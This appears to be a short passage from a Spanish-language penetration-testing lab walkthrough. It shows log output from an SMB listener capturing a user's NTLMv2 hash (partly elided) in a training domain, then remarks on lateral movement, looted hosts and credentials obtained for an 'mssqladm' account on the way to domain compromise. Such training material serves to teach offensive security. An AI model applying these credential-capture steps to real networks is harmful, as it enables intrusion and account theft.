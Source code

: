```r
[+] [2022-06-22T15:04:05] Domain mapping added for INLANEFREIGHT to INLANEFREIGHT.LOCAL
[+] [2022-06-22T15:04:05] SMB(445) NTLM challenge 5EB0B310E7B8BA04 sent to 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) NTLMv2 captured for ACADEMY-AEN-DEV\mpalledorous from 172.16.8.20(ACADEMY-AEN-DEV):55623:
mpalledorous::ACADEMY-AEN-DEV:5EB0B310E7B8BA04:<SNIP>
```

---

## Closing In

Ahora hemos enumerado el dominio por dentro y por fuera, nos hemos movido lateralmente y saqueado lo que pudimos encontrar en los hosts objetivo. En este punto, tenemos credenciales para el usuario `mssqladm` y podemos continuar buscando un camino hacia el compromiso del dominio.